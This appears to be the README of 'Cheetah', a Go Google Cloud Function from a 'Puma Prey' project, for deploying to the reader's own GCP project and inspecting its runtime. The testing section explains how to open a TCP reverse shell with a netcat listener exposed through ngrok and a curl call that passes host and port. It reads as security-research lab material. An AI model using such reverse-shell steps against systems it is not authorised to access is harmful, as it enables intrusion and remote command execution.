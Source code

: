 # Puma Prey Cheetah

Cheetah is a Go function that can be deployed to the Google Cloud Platform to establish a TCP reverse shell for the purposes of introspecting the Cloud Functions container runtime.

## Installing Prerequisites

* [Node.js / NPM](https://nodejs.org/en/download/)
* [Function Deployment Service Account](https://cloud.google.com/functions/docs/concepts/iam#cloud_functions_service_account)

## Deploying The Function

### Serverless Framework

Follow [these steps](https://serverless.com/framework/docs/providers/google/guide/credentials/) to generate a credentials file. Deploy the function by specifying your GCP project ID and the **absolute path** of the credentials file.

```bash
cd /PATH/TO/cheetah/src/cheetah
npm install
GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json npx serverless deploy
```

### Native GCloud Commands

To deploy natively without the serverless framework, configure `gcloud` in the Terminal to authentication as the deployment service account. Then, deploy the function.

```bash
gcloud auth activate-service-account --key-file ~/.gcloud/keyfile.json
gcloud functions deploy cheetah --entry-point Cheetah --runtime go111 --trigger-http --service-account=XXXXXXXXX-compute@developer.gserviceaccount.com
```

## Deploying Assets

Create some secrets and grant permissions to the SA. Side note: wow, they really don't want you passing these values via the command line. Makes sense for real secrets though.

```
echo "cheetah_user" | gcloud beta secrets create cheetah-database-user --data-file=- --replication-policy=automatic

echo "TmV2ZXIgcGxheSBwb2tlciB3aXRoIHRoZSB3b3JsZCdzIGZhc3Rlc3QgYW5pbWFsLCBiZWNhdXNlIGhlJ3MgYSBjaGVldGFoLiAtIGNvb2xmdW5ueXF1b3Rlcy5jb20g" | gcloud beta secrets create cheetah-database-pass --data-file=- --replication-policy=automatic

gcloud beta secrets add-iam-policy-binding cheetah-database-user --member serviceAccount:XXXXXXXXX-compute@developer.gserviceaccount.com --role roles/secretmanager.secretAccessor

gcloud beta secrets add-iam-policy-binding cheetah-database-user --member serviceAccount:XXXXXXXXX-compute@developer.gserviceaccount.com --role roles/secretmanager.secretAccessor
```

## Testing in GCP

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/cheetah --url-id YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details:

```bash
curl "https://$GCP_REGION-YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID.cloudfunctions.net/Cheetah?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER"
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file.

## Teardown

```bash
cd /PATH/TO/cheetah/src/cheetah
GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json npx serverless remove
```

## Linting

```bash
cd /PATH/TO/cheetah/src/cheetah
go get -u golang.org/x/lint/golint
npm run lint
```

## Learning More

Read [documentation](docs) on what you can accomplish once you connect to the runtime via Cheetah.

## Serverless Go Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template google-go --path cheetah
```

## Exploring Serverless

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/google/) for more information.
